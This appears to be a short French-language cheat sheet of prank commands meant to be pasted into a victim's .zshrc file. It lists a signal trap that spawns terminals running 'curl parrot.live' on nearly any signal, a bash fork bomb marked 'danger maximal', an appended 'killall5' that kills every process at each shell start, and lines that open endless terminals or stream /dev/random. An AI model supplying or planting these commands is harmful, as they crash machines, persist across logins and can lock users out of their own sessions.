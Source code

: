 trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA /!\

```echo "killall5" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal" >> .zshrc && source .zshrc```


[-------------------------------------------------------------]
```echo "gnome-terminal && cat /dev/random" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal && curl parrot.live" >> .zshrc && source .zshrc```
